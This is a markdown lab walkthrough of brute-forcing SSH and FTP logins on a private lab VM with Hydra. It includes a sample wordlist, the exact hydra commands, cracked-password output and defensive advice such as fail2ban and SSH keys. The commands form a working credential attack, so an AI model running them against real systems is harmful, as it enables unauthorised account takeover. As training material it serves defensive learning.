


# Brute Force Attack with Hydra

## Objective

Use Hydra to perform a brute force attack against SSH and FTP services on a target machine using a password wordlist.

## Environment

- **Machine:** Cletus-lab (Ubuntu VM)
- **Target IP:** 192.168.0.240
- **Services:** SSH (port 22), FTP (port 21)
- **Tool:** Hydra v9.5

> **Legal note:** Only perform brute force attacks against systems you own or have explicit written permission to test. This walkthrough targets our own lab VM.

---

## Step 1 — Prepare a Wordlist

A wordlist is a plain text file with one password per line. Real-world engagements use large wordlists like `rockyou.txt` (14 million passwords). For this demo we use a small custom list.

```
admin
password
123456
letmein
password123
qwerty
abc123
welcome
monkey
dragon
```

Save it as `wordlist.txt`.

---

## Step 2 — Brute Force SSH

### Command

```bash
hydra -l cletus -P wordlist.txt ssh://192.168.0.240 -t 4
```

### Flags explained

| Flag | Meaning |
|------|---------|
| `-l cletus` | Single username to attack |
| `-P wordlist.txt` | Password list file |
| `ssh://192.168.0.240` | Target protocol and IP |
| `-t 4` | 4 parallel threads |

### Output

```
[DATA] attacking ssh://192.168.0.240:22/
[22][ssh] host: 192.168.0.240   login: cletus   password: password123
1 of 1 target successfully completed, 1 valid password found
```

Hydra tried each password against SSH and found `password123` on the 5th attempt.



---

## Step 3 — Brute Force FTP

### Command

```bash
hydra -l cletus -P wordlist.txt ftp://192.168.0.240 -t 4
```

### Output

```
[DATA] attacking ftp://192.168.0.240:21/
[21][ftp] host: 192.168.0.240   login: cletus   password: password123
1 of 1 target successfully completed, 1 valid password found
```

Same result — Hydra found the password on FTP as well.



---

## Key Hydra Flags Reference

| Flag | Description |
|------|-------------|
| `-l` | Single username |
| `-L` | Username list file |
| `-p` | Single password |
| `-P` | Password list file |
| `-t` | Number of parallel threads |
| `-s` | Custom port |
| `-o` | Save output to file |
| `-V` | Verbose — show every attempt |

---

## Defensive Takeaways

This demo shows why weak passwords are dangerous:

- **Use strong passwords** — `password123` was cracked in seconds
- **Use SSH keys** instead of password authentication where possible
- **Install fail2ban** — automatically blocks IPs after repeated failed logins
- **Disable FTP** — use SFTP instead (encrypted)
- **Limit login attempts** — configure `MaxAuthTries` in `/etc/ssh/sshd_config`
